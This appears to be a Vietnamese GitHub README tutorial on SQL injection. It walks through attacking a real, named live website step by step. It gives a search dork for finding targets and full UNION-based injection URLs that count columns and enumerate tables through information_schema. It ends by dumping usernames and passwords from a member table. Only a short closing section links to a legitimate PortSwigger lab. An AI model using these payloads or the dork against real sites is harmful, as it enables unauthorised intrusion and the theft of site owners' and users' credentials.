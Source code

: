 # Hướng dẫn tấn công SQLi trên Web thật!                                                     
By: Nguyễn Hữu Nghi
***

** Lưu ý: Bài Demo này là tấn công dựa trên web thật do mình tìm được, với mục đích học tập. Các bạn có thể làm theo nhưng vui lòng đừng thực hiện các tấn công nguy hiểm nhầm phá hoại trang web. Xin cảm ơn! **

## Bước 1:
Tìm kiếm đối tượng tấn công sử dụng lệnh: ```inurl product.php id= site vn``` thông qua các trình duyệt web thông dụng như Chrome, Edge, Cốc Cốc,....
## Bước 2:
Sau khi tìm được đối tượng tấn công.
Mình khuyên các bạn nên tìm các trang web có địa chỉ bắt đầu bằng `http` thay vì`https` thì tấn công sẽ dễ thành công hơn.
<br>
Ví dụ:
![image](https://github.com/user-attachments/assets/a7f45723-3797-426a-a32f-c7ff238794c4)
</br>
** Lưu ý: không phải trang web nào các bạn cũng thực hiện tấn công thành công được, nên đừng quá chán nản. Hãy tập trung tìm điểm yếu hoặc trang wed khác! **

## Bước 3:
Mình sẽ lấy trang web mình tìm được:
http://www.igoergo.com/_site/products.php?cat=02
- Xác định số cột <br></br>
```order by 1-- -``` nếu web vẫn bình thường hãy thử lại với số cao hơn! <br>
```order by 3-- -``` web sẽ xảy ra lỗi => Điều này có nghĩa số cột cần tìm > 1 và < 2.<br>
```order by 2-- -``` web vẫn bình thường => số cột của web này là 2.<br>
Trông nó sẽ như này: ```http://www.igoergo.com/_site/products.php?cat=02%20order%20by%202--%20-``` %20 chỉ tượng trưng cho dấu cách các bạn không cần phải lo!
- Xác định cột bị lỗi để có thể chèn code của mình vào <br></br>
Sử dụng lệnh: ```union select 1,2-- -```    
** Lưu ý: bước trên các bạn tìm được bao nhiêu cột thì bắt buộc phải gõ đủ bấy nhiêu cột.  VD: union select 1,2,3,4,5-- - <br></br>
Để lệnh chạy đc thì các bạn thêm `-` trước giá trị của `cat`. ( hoặc `id` nếu các bạn tấn công web khác mình)<br></br>
Trông như này: ```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%201,2--%20-```<br></br>
Kết quả: <br>
![image](https://github.com/user-attachments/assets/558bdd0d-fcd4-4178-9870-b9a1ecd0b54e)  </br> 
=> Điều này có nghĩa là bạn có thể chèn code vô cột 1.
**Nếu bạn nghĩ mình đã gõ đúng mà Web vẫn báo lỗi hãy kiểm tra lại từng chữ mà bạn gõ!!!**
## Bước 4:
Thực hiện chèn code bằng các lệnh: <br>
```user()``` => coi user của web <br>
```database()``` => coi thông tin về database <br>
```version()``` => coi version của database <br>
Trông như thế này: <br>
```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20user(),2--%20-```
</br>
### Bước 4.1:
- Tìm tên các tables trong database: <br>
``` union select group_concat(table_name),2 from information_schema.tables where table_schema= database();-- -``` <br>
- Trông sẽ như này: <br>```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20group_concat(table_name),2%20from%20information_schema.tables%20where%20table_schema=%20database();--%20-```</br>
### Bước 4.2:
- Tìm tên các cột trong 1 table cụ thể.<br>
**Thường lấy các cột trong table về chủ sở hữu web vì nó chứa các thông tin quan trọng** <br>
- Ở đây mình lấy table `member` để tấn công. <br> 
Nhưng trước tiên mình cần đổi member thành hệ thập lục phân Hex.
Link đổi sang Hex: https://www.hexator.com/ <br>
```member``` đổi sang Hex sẽ là ```6d656d626572``` <br>
- Sử dụng lệnh: ```union select group_concat(column_name),2 from information_schema.columns where table_name= 0x6d656d626572-- -``` <br>
**Lưu ý: chổ table_name thêm `0x` rồi sau đó là hex của member là `6d656d626572` <br>
- Trông như này: ```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20group_concat(column_name),2%20from%20information_schema.columns%20where%20table_name=%200x6d656d626572--%20-``` <br>
### Bước 4.3:
- Xem nội dung trong các cột: <br>
  Sử dụng lệnh: ```union select group_concat(id,username,password),2 from member-- -``` tuy nhiên kết quả trả về sẽ bị gộp rất khó coi.<br>
  Chèn dấu `/` để dễ nhìn => `2f` => ```union select group_concat(id,0x2f,username,0x2f,password),2 from member-- -```
- Trông nó sẽ như thế này:```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20group_concat(id,0x2f,username,0x2f,password),2%20from%20member--%20-```
### Chúc mừng bạn đã tấn công thành công!!!
<br>
<br>
<br>

***
# Lab 2: Blind SQLi

- Link to lab: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
- Link tải Burp Suite: https://portswigger.net/burp/communitydownload











